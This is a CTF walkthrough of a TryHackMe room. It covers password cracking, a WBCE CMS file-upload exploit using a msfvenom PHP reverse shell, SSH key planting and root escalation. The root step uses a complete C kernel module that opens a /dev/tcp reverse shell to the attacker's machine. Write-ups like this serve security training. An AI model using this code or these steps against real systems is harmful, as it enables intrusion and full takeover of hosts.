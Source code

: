 Hello guys, welcome to this THM avengers hub room !

Before we start to help you :
MyIp : 10.20.20.20
TargetIp : 10.30.02.20

we start by scanning the network with NMAP 

```nmap -sV ip ```

after scanning the network we can see there is SSH port (22) and http port (80) which the one interesting us,
when we load to the main page we have a loading telling us that site is in maintnance so we need to find.

Lets scan the differents paths, i use dirsearch but you can use gobuster or other tools !
```python3 dirsearch.py -u http://10.30.02.20 ```

we have diferent directorys, by navigating to it one by one we fond suspecious zip file that we can download : 

Lets try top open it ! 

When we try to open the ZIP file, it asks for a password. Since we don’t know it, we can try to crack the password using zip2john and john
```zip2john breakglass.zip > hash.txt```

Then we use john with a popular wordlist (rockyou.txt) to try and crack the password:
```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Bingo, when we got the password we got this file,

it tells that admin password is : but it encrypted in md5 hash so we need to decrypt it, we will first try to see online tools if they already have this password hash stocked in their data base, if not we will try to crack it !


Bingo again, we have admin password, lets connect into the admin interface

now we arrive at an interface of WBCE CMS 1.6.2, when googling it we can see there is an exploit by injecting .inc files
.inc files are used in PHP to include code. If the server treats them like .php, uploading one can lead to executing code on the server
https://www.exploit-db.com/exploits/52039

lets create our own .inc reverse shell with msfvenom

msfvenom -p php/reverse_php LHOST=YOUR_MACHINE_IP LPORT=4444 -f raw > shell.inc

now we put our listener : nc -lvnp 4444

after that we upload it in /media/ double click on it and we got the shell !

executing commands like whoami, tell us we are www-data the webserver user, 

navigating to /home/ we found an user, listing his directory content we see a flag.txt BUT we cannot open it due to our permission, but something is interesting, we have full rights on the .ssh folder, navigating there we see .authorized_key a file storing the keys autorized to connect to the user via ssh without a password ! since we have the full rights on the file 
we gonna go back on our machine and create an ssh key

```ssh-keygen -t rsa -b 4096 -f mykey```


open mykey.pub and copy all the content.

now go back to your listener shell and do echo "SSH_PUB_KEY" > /home/user/.ssh/authorized_key

and now we can try to connect to the user ssh key to connect to the user : ssh -i mykey user@IP


Bingo, we have user shell, we can cat the flag file with cat flag.txt


now we need the root file, obviously we dont have root access or it bee too easy, by executing sudo -l we can see that we can execute .ko file
.ko files are kernel modules — basically code we can plug directly into the Linux kernel. Since we can load one as sudo, we can write a malicious module that gives us root access when it gets loaded. Game over
.ko files are developed in C, and only in C so we gonna develope (or get in github) a reverse shell in C, the objective here is to put a listener on another port in our kali machine, when we run our .ko file since it gonna run with root it gonna open reverse shell in root

in the ssh host create the file cyberavengers.c and copy past your code, mine was : 

```ccyberavengers.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "IP"   // Replace with your IP
#define REMOTE_PORT "8888"      // Replace with your port

static int reverse_shell_thread(void *data)
{
    /* Commande reverse shell utilisant bash et /dev/tcp */
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Module kernel minimaliste pour reverse shell (à usage restreint)");
```

create Makefile to compile the c file : 
```Makefile
obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

after that put another listener on our 8888 port : 

nc -lvnp 8888 

run the sudo command : /sbin/insmod cyberavengers.ko

and bingo ! you should have a reverse shell in our netcat with root user !

the flag is on /root/flag.txt !

Have a great day ! 



